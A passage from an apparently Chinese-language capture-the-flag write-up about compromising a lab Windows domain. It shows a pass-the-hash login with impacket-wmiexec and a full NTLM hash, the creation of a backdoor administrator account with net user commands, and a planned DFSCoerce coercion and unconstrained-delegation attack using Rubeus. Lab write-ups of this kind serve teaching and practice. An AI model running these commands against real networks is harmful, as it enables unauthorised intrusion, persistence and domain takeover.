proxychains4 impacket-wmiexec administrator@172.22.4.45 -hashes aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab -codec gbk

type C:\Users\Administrator\flag\flag02.txt
```



# flag3&4

先新增一个用户放管理组，这样后面好操作

```bash
net user test3 whoami666! /add
net localgroup administrators test3 /add
```

rdp上去

## DFSCoerce强制域认证+非约束性委派

前面我们也得到了域控制器的机器账户凭据，用于委派攻击 https://forum.butian.net/share/1591

因为都是一个域里面，用管理员权限运行Rubeus，同时DFSCoerce 漏洞利用工具，触发辅域控进行强制验证https://github.com/Wh04m1001/DFSCoerce 和 https://forum.butian.net/share/1944
